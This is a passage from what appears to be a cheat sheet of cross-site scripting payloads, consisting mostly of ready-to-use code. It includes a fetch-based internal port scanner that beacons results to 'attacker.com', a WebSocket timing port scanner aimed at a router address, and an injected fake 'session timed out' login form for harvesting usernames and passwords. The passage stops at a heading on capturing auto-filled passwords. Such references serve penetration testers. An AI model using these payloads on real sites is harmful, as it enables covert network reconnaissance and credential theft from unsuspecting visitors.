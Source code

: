 ```html

    setTimeout((x) => {
      controller.abort()
      if (q.length) {
        q.shift()()
      }
    }, wait)
  }
</script>
```

### Port Scanner (fetch)

```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

### Port Scanner (websockets)

```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
    var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
    s.start = performance.now();
    s.port = ports[i];
    s.onerror = function() {
        console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
    };
    s.onopen = function() {
        console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
    };
}
```

_Short times indicate a responding port_ _Longer times indicate no response._

Review the list of ports banned in Chrome [**here**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net_util.cc) and in Firefox [**here**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist).

### Box to ask for credentials

```html
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```

### Auto-fill passwords capture
